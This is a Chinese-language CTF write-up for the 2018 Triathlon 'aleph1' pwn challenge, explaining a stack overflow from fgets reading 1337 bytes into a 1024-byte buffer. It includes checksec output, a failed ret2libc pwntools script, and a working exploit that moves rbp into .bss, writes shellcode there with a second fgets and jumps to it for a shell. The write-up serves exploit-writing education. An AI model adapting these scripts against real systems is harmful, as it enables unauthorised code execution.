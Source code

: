 ```yaml
---
title: 2018 铁人三项赛 aleph1 Writeup
tags:
  - pwn
categories: Exploit
keywords:
  - pwn
  - CTF
translate_title: 2018-triathlon-aleph1-writeup
date: 2018-10-29 11:45:08
---
```



# 0x01 漏洞位置
程序很简单，调用 fgets() 从 stdin 中读取 1337 bytes 数据到 yolo 数组中，由于 yolo 内存空间为 1024 bytes，但输入数据长度大于 1024 时会导致栈溢出。
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char yolo[1024]; // [rsp+0h] [rbp-400h]

  fgets(yolo, 1337, _bss_start);
  return 0;
}
```

# 0x02. 漏洞利用
首先，检查程序开启的安全机制，发现没有开任何安全机制。
```python
➜  aleph checksec aleph1
[*] '/home/lc/t3pwn/aleph/aleph1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
## 1. 第一次尝试
由于题目给了 libc 文件，所以可以尝试 ret2libc 进行利用。
```python
#!/usr/bin/env python

from pwn import *
context.log_level = 'debug'

p = process(['./aleph1'], env = {"LD_PRELOAD":"./libc64"})
#p = remote("202.1.14.12", 40001)
system_add = p64(0x7ffff7a52390)
poprdi_add = p64(0x0000000000400663)
bash_add = p64(0x7ffff7b99d57)

raw_input("send")
payload = 1032* "A" +  poprdi_add + bash_add + system_add

p.sendline(payload)
p.interactive()
```
但很不幸，服务器开启了 ASLR，libc 加载基址的随机化会使得 libc 中 system 函数地址和 "/bin/sh" 字符串地址发生变化，导致利用失败。

## 2. 第二次尝试
由于开启了 ASLR，利用过程就不能依赖堆栈以及内存中共享库的地址。程序汇编代码如下：
```C
.text:00000000004005CA                 push    rbp
.text:00000000004005CB                 mov     rbp, rsp
.text:00000000004005CE                 sub     rsp, 400h
.text:00000000004005D5 ; 4:   fgets(yolo, 1337, _bss_start);
.text:00000000004005D5                 mov     rdx, cs:__bss_start ; stream
.text:00000000004005DC                 lea     rax, [rbp+yolo]
.text:00000000004005E3                 mov     esi, 539h       ; n
.text:00000000004005E8                 mov     rdi, rax        ; s
.text:00000000004005EB                 call    _fgets
.text:00000000004005F0 ; 5:   return 0;
.text:00000000004005F0                 mov     eax, 0
.text:00000000004005F5                 leave
.text:00000000004005F6                 retn
                                        ...
.bss:0000000000601030 __bss_start     dq ?                    ; DATA XREF: LOAD:0000000000400350↑o
.bss:0000000000601030                                         ; deregister_tm_clones+1↑o ...
.bss:0000000000601030                                         ; Alternative name is '__TMC_END__'
.bss:0000000000601030                                         ; stdin@@GLIBC_2.2.5
.bss:0000000000601030                                         ; _edata
```
分析汇编代码后发现，通过两次输入可以把 shellcode 写入 .bss 段中，然后跳转到 .bss 段执行 shellcode，具体思路如下：
1. 利用 fgets() 写内存溢出，把 rbp 寄存器修改到 .bss 段的 0x601440(0x601030 + 0x400 + 0x10) 地址处，其中，0x400 为 yolo 的内存大小，偏移0x10 是为了不破坏 .bss 中 stdin 的值 ；同时，把返回地址覆盖为 0x4005D5，以便进行第二次调用 fgets() 进行写内存。
2. 利用第二次调用 fgets() 把 shellcode 写入 .bss 中，由于 rbp 被修改到 .bss 段的 0x601440，所以会把数据写入到 0x601040（ [rbp - 0x400] ）；同时，把返回地址覆盖为 shellcode 地址 0x601040。
3. 最终 ret 时跳转到 shellcode 执行。

利用脚本如下：
```python
#!/usr/bin/env python
from pwn import *

p = process("./aleph1")
context(os='linux', arch='amd64')

bss_start = 0x601030
rbp = bss_start + 0x400 + 0x10
ret_addr = 0x4005D5
payload1 = 1024*"A" + p64(rbp) + p64(ret_addr)
p.sendline(payload1)

shellcode = asm(shellcraft.sh())
sc_addr = bss_start + 0x10
payload2 = shellcode + (1024 + 8 - len(shellcode))*"A" + p64(sc_addr)
p.sendline(payload2)
p.interactive()
```

